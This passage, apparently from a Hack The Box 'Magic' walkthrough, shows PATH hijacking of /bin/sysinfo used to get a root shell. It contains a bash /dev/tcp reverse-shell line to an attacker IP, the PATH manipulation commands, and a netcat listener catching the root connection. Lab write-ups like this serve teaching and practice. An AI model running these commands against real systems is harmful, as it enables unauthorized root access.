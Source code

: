 		/bin/bash -i >& /dev/tcp/10.10.14.14/4444 0>&1
		```
	2. Unset PATH environment variable
		```
		theseus@ubuntu:/tmp$ echo $PATH
		/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
		
		theseus@ubuntu:/tmp$ unset PATH
		theseus@ubuntu:/tmp$ echo $PATH
		
		theseus@ubuntu:/tmp$
		```
	3. Add `/tmp` to our PATH environment variable
		```
		theseus@ubuntu:/tmp$ export PATH=/tmp
		theseus@ubuntu:/tmp$ echo $PATH
		/tmp
		```
	4. Start `netcat` listener
		```
		┌──(root💀kali)-[~/htb/magic]
		└─# nc -nvlp 4444
		Ncat: Version 7.92 ( https://nmap.org/ncat )
		Ncat: Listening on :::4444
		Ncat: Listening on 0.0.0.0:4444
		```
	5. Invoke reverse shell 
		```
		theseus@ubuntu:/tmp$ /bin/sysinfo

		# Kali
		┌──(root💀kali)-[~/htb/magic]
		└─# nc -nvlp 4444
		Ncat: Version 7.92 ( https://nmap.org/ncat )
		Ncat: Listening on :::4444
		Ncat: Listening on 0.0.0.0:4444
		Ncat: Connection from 10.10.10.185.
		Ncat: Connection from 10.10.10.185:39526.
		bash: groups: command not found
		Command 'lesspipe' is available in the following places
		 * /bin/lesspipe
		 * /usr/bin/lesspipe
		The command could not be located because '/bin:/usr/bin' is not included in the PATH environment variable.
		lesspipe: command not found
		Command 'dircolors' is available in '/usr/bin/dircolors'
		The command could not be located because '/usr/bin' is not included in the PATH environment variable.
		dircolors: command not found
		root@ubuntu:/tmp#
		```
